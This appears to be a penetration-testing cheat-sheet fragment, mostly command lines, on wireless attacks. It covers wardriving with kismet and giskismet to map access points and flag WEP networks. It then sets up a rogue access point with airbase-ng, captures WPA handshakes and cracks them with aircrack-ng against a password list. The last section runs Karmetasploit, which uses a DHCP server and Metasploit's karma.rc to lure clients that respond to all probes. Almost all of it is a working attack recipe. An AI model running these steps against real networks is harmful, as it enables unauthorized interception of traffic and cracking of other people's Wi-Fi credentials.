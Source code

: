 ```powershell
# giskismet: kismet inside a SQL database
> require a GPS receiver

gpsd -n -N -D4 /dev/ttyUSB0
-N : foreground 
-D : debugging level

# kismet will gather SSID and GPS location
giskismet -x kismet.netxml

# generate a kml file (Google Earth)
giskismet -q "select * from wireless" -o allaps.kml
giskismet -q "select * from wireless where Encryption='WEP'" -o wepaps.kml
```

### Rogue Access Point

#### WPA handshake

```powershell
airmon-ng start wlan0 3
airodump-ng -c 3 -d $ATTACKER_MAC -w airbase mon0

# basic fake AP
airbase-ng -c 3 -e $AP_SSID mon0
airbase-ng -c 3 -e $AP_SSID -z 4 -W 1 mon0
-W 1 : WEP

# get a WPA handshake if the client connect
aircrack-ng -w /pentest/passwords/john/password.lst airbase-01.cap
```

#### Karmetasploit

```powershell
# install a dhcp server
apt install dhcp3-server

airmon-ng start wlan0 3
airbase-ng -c 3 -P -C 60 -e $AP_MAC -v mon0
-P: respond to all probes
ifconfig at0 up 10.0.0.1/24

mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases

"CONF DHCP FROM VIDEO 75" > /tmp/dhcpd.conf

touch /tmp/dhcp.log
chown -R dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp/log at0

karma.rc from metasploit
# comment the first 2 lines (load sqlite)
msfconsole -r /root/karma.rc
```
